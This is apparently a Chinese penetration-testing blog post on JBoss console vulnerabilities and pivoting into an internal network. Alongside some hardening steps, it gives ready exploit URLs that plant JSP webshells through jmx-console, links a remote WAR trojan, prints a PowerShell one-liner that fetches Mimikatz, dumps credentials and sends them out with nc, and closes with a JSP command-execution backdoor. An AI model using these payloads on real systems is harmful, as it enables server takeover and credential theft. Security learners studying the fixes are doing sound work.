 ```yaml
---
layout: post
title: "一次简单的漫游内网附带对jboss安全性的讨论"
date: 2016-12-08 
description: "jboss未授权访问的学习和修复"
tag: 渗透测试 
---
```


讲这个之前，先在本地搭建一个jboss环境，自从上次被吊打之后，觉得做安全的多少要会点防御，以前把太多精力放在攻击上面了。这就当做一个学习笔记，三件套，攻击过程，修复过程，自动化脚本。
## 漏洞复现 jmx-console
先安装docker镜像，docker pull tutum/jboss:as5

然后
```
docker run -d -p 8080:8080 -p 9990:9990 -e JBOSS_PASS="mypass" tutum/jboss
```
管理器的地址是
http://127.0.0.1:9990/manager/html
或者不设置密码
```
docker run -d -p 8080:8080 -p 9990:9990 tutum/jboss
```
这里选择as4版本，这个是老版本的jboss

![](http://ohsqlm7gj.bkt.clouddn.com/public/16-12-10/65866709.jpg)
然后找到addurl,填上war木马地址，进行远程部署
![](http://ohsqlm7gj.bkt.clouddn.com/public/16-12-10/95504378.jpg)
然后点击change
![](http://ohsqlm7gj.bkt.clouddn.com/public/16-12-10/24456548.jpg)

然后才到连接
![](http://ohsqlm7gj.bkt.clouddn.com/public/16-12-10/92262266.jpg)
http://192.168.190.145:8080/is/index.jsp
有些实际场景无法部署成功，可能做了限制吧
但是实际的路径确实在tmp路径下面
```
/jboss-4.2.3.GA/server/default/./tmp/deploy/tmp5962862023186656288is-exp.war/
```
## 漏洞修复 jxm-console
###1 加上密码验证
给jmx-console加上访问密码

 常见路径
 ```
 /jboss-4.2.3.GA/server/default/deploy/jmx-console.war/
 ```
1.在/server/default/deploy/jmx-console.war/WEB-INF/jboss- web.xml去掉<security-domain>java:/jaas/jmx-console</security- domain>的注释
2.)修改jboss-web.xml同级目录下的web.xml文件，查找到<security-constraint/>节点，去掉它的注释
其中内容为
```
<auth-constraint>  
<role-name>JBossAdmin</role-name>  
</auth-constraint>  
</security-constraint>  
```
表示角色
3.在JBoss安装目录/server/default/config/login-config.xml
查找代码jmx-console
其中大致为
```
<module-option name="usersProperties">props/jmx-console-users.properties</module-option>  
<module-option name="rolesProperties">props/jmx-console-roles.properties</module-option>
```
打开jmx-console-users.properties
内容为
```
admin=admin #用户名:密码
```
jmx-console-roles.properties为角色分配
```
admin=JBossAdmin, HttpInvoker #用户名=角色，多个角色以“,”隔开
```
修复完成

关键路径
修改注视的地方
server/default/deploy/jmx-console.war/WEB-INF/jboss- web.xml
server/default/deploy/jmx-console.war/WEB-INF/web.xml
用户密码位置
server/default/conf/props/jmx-console-users.properties
jxm-console用户名密码

极端方法
删除
查找web-consel路径
find / -iname ServerInfo.jsp
```
jboss-4.2.3.GA/server/all/deploy/jmx-console.war
/jboss-4.2.3.GA/server/all/deploy/management/console-mgr.sar/web-console.war
jboss-4.2.3.GA/server/default/deploy/jmx-console.war
/jboss-4.2.3.GA/server/default/deploy/management/console-mgr.sar/web-console.war
```



## 漏洞复现 web-console
参考文献
[各大容器拿shell](http://tieba.baidu.com/p/4384830632)
在有些高版本的jboss里面，貌似jxm-console无法直接部署
参考[http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0157256.html](http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0157256.html)
```
http://localhost:8080/jmx-console/HtmlAdaptor?action=invokeOpByName&name=jboss.admin%3Aservice%3DDeploymentFileRepository&methodName=store&argType=java.lang.String&arg0=upload5warn.war&argType=java.lang.String&&arg1=shell&argType=java.lang.String&arg2=.jsp&argType=java.lang.String&arg3=%3c%25+if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b+%25%3e&argType=boolean&arg4=True
```
带回显
```
http://192.168.31.6:8080/upload5warn/shell.jsp?f=hello.jsp&t=%3C%25if(%22023%22.equals(request.getParameter(%22pwd%22)))%7Bjava.io.InputStream%20in%20=%20Runtime.getRuntime().exec(request.getParameter(%22i%22)).getInputStream();int%20a%20=%20-1;byte%5B%5D%20b%20=%20new%20byte%5B2048%5D;out.print(%22%3Cpre%3E%22);while((a=in.read(b))!=-1)%7Bout.println(new%20String(b));%7Dout.print(%22%3C/pre%3E%22);%7D%25%3E%0A
```


上面的用法任意写
http://192.168.31.6:8080/upload5warn/shell.jsp?f=hello.txt&t=whoami

![](http://ohsqlm7gj.bkt.clouddn.com/16-12-10/11680461-file_1481366662098_2bce.png)
之后在
http://192.168.31.6:8080/admin-console/secure/summary.seam?path=-33&conversationId=43&conversationPropagation=end会找到项目
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-10/64405151-file_1481366751650_39a5.png)
物理路径为
/jboss-5.1.0.GA/server/default/deploy/management/upload5warn.war/shell.jsp

查看路径发现
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-10/21802361-file_1481367598778_9b24.png)
所以访问
http://192.168.31.6:8080/upload5warn/shell.jsp?f=hello.txt&t=whoami可以写任意内容
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-10/24651987-file_1481368524000_10df8.png)

## 漏洞修复 web-console
同方法一

## 漏洞复现 9990/console
上面说的都是老版本的jboss，下载心版本的jboss发现，没有了上面的jxm-console,测试的版本是as7
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-10/135394-file_1481368963860_5492.png)
首先你要知道帐号和密码
在登录之后
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-10/3510331-file_1481371295394_56c6.png)
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-10/97439762-file_1481371320540_14d5c.png)
选择好一个war就可以部署了，也可以下在园长mm的
[http://p2j.cn/is.war](http://p2j.cn/is.war)
部署的时候记得点enable，然后访问就行了
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-10/90140430-file_1481371473610_11d18.png)
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-10/21271136-file_1481371773168_80d2.png)

## 漏洞修复 web-console
同方法一,修改密码


## 慢慢搞内网
我这里选择的是msf来入侵内网，用这个搞内网还是很成熟的，自动化很爽。
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-10/38134099-file_1481373288274_dcd9.png)
可以看到源码
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-10/82328586-file_1481373474878_a0ea.png)



## 内网渗透
首先尝试msf，但是发现反弹不出来,测试ping不通任何外网主机
![](http://ohsqlm7gj.bkt.clouddn.com/16-12-11/54745491-file_1481390356993_a184.png)
试了几个常见的exp最终提权成功，不过域控没有搞下来，本次渗透就此作罢。
powweshell抓明文
```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds" | nc 192.168.1.1 4444 
```




## 修复参考文献
[http://blog.knowsky.com/193845.htm](http://blog.knowsky.com/193845.htm)
[jsp后门](http://www.hackdig.com/?12/hack-16680.htm)
附带几个jsp木马

```
<%Runtime.getRuntime().exec(request.getParameter("i"));%>
```
突然想到这些不同版本之间的拿shell方法不同，可以写一个完整的小项目来完成这个需求。




